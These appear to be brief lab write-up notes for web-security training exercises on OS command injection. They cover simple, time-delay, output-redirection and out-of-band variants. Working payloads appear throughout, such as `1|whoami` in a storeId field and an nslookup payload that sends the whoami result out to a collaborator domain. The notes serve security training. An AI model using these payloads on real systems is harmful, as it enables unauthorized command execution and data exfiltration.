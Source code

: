 ### OS command injection, simple case

In the `/product/stock`. In the body, set the storeId to `1|whoami`

---
### OS command injection with time delays

Send a feedback, intercept the request, and set the email to: `email=x||ping+-c+10+127.0.0.1||`
You can see the request takes 10 seconds to get the response. Due to the `-c 10` packets we're sending

Thing here is, not all parameters are always vulnerable. Sometimes it's just one, so you need to try

---
### Blind OS command injection with output redirection

Same as previous, modify the email parameter, as is the vulnerable one, and set it to: `email=||whoami>/var/www/images/output.txt||` Due to the lab telling us this is a writable directory. 

So, after that, go back to the shop, and get one of the request pointing to a filename=20.jpg, and replace the filename with the one you set previously. In our case, "output.txt" and that's it.

---
### Blind OS command injection out-of-band interaction

Replace the email parameter for this payload `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||` which is a nslookup to the collaborator. 

---
### Blind OS command injection with out-of-band data exfiltration

This is your payload: ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``

You will receive the user before the collaborator ID in the Repeater tab.